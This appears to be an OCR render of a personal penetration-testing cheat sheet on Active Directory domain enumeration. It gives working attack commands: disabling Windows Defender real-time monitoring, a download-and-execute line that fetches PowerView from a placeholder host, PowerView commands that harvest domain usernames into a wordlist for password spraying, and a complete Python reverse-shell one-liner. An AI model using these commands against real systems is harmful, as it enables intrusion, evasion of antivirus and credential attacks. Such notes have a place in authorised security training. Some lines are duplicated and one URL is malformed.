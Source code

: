 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


### DOMAIN ENUMERATION
 # Patch AMSI or disable AV
<span style="color: Green;"># Patch AMSI or disable AV</span>
<span class="demo-highlight"># Patch AMSI or disable AV</span>

```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
<span class="demo-highlight"># Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying</span>

```powershell
      Get-NetUsers | select samaccountname > username.txt
```
<br>
<span class="demo-highlight"># Get all the computers in the domain</span>

```powershell
Get-NetComputer
```
<br>
<span class="demo-highlight"># Get information about specific computer</span>

```powershell
Get-NetComputer -Identity <computer_name>
```


```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```